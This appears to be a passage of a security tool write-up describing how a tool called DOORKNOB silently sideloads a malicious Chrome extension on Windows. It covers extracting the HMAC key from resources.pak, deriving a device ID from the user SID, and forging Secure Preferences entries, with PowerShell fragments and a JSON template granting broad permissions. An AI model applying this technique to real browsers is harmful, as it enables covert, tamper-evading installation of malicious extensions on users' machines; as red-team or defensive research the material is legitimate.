 **3. Machine Key Extraction**
The HMAC key is stored within Chrome's `resources.pak` file, which contains compressed browser resources. DOORKNOB:
- Parses the PAK file format to locate a specific 64-byte resource
- Extracts this machine-specific key
- Uses it to generate valid HMAC signatures for modified preference files
- Technically this is identical across all chrome installs, so for now Machine Key is really just a hardcoded value.

#### The Sideloading Process

**Step 1: Chrome Discovery**
```powershell
# Locates Chrome installation and extracts the resources.pak file for Machine Key calculation
$chromePath = Get-ChromeApplicationPath
$resourcesPath = "$chromePath\resources.pak"
```

**Step 2: Machine Key + Device ID Extraction**
```powershell
# Parses PAK file structure to find the 64-byte machine key
$resourceBytes = [System.IO.File]::ReadAllBytes($ResourcePath)
$machineKey = Extract-64ByteResource($resourceBytes)
```

```powershell
$deviceId = ([System.Security.Principal.WindowsIdentity]::GetCurrent().User.Value -split '-')[0..6] -join '-'
```

**Step 3: Preference Manipulation**
The script modifies Chrome's preferences to include the malicious extension:
```json
{
  "extensions": {
    "settings": {
      "malicious_extension_id": {
        "account_extension_type": 0,
        "active_permissions": {
          "api": [
            "management",
            "system.display",
            "system.storage",
            "webstorePrivate",
            "system.cpu",
            "system.memory",
            "system.network"
          ],
          "explicit_host": [],
          "manifest_permissions": [],
          "scriptable_host": []
        },
        "app_launcher_ordinal": "t",
        "commands": {},
        ...
        "manifest": {...},
        "path": "C:\\path\\to\\extension",
        "state": 1
      }
    }
  }
}

Note that in some cases this may be in the `Preferences` file (appears to be the case on Windows 11), while in most cases
it's stored in the `Secure Preferences` file (all other Windows versions).
```
